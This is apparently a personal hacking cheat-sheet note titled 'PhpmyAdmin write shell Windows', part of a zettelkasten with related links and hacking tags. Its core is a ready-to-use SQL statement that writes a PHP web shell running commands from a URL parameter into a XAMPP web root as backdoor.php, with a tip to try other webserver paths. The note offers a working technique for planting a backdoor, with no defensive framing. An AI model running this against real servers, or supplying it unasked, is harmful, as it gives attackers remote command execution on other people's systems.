 # PhpmyAdmin write shell Windows
Write a CMD shell into a file with the right permissions. Issue the following select. (Try different paths for different webservers)
```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php"
```

` zet/20221003150552/README.md `

# Related

- [20221003150553](/zet/20221003150553/README.md) PhpmyAdmin write shell
- ~/kb/hacking/common-commands.md

Tags:

    #command #hacking #common 

